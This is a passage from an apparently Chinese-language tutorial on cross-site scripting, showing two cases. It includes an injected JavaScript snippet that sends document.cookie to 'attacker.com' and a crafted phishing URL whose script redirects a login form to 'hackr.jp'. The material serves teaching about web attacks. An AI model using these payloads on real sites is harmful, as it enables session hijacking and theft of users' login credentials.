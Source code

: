 ![xss](../images/xss.jpeg)

此时黑客插入的代码是：
```javascript
var i = new Image
i.src = "http://attacker.com/" + document.cookie
```
等于向黑客的地址发起了一个请求，并且带上了用户自己的cookie

案例二：  
有个如下的页面  
![xss](../images/xss-2.jpeg)  
表单的ID项从URL中获取ID参数填充到文本框中，这种也是隐含着跨站脚本攻击的漏洞。

黑客可以事先准备好如下URL，并作为欺诈邮件或者web页面，诱导用户去点击
```
http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```
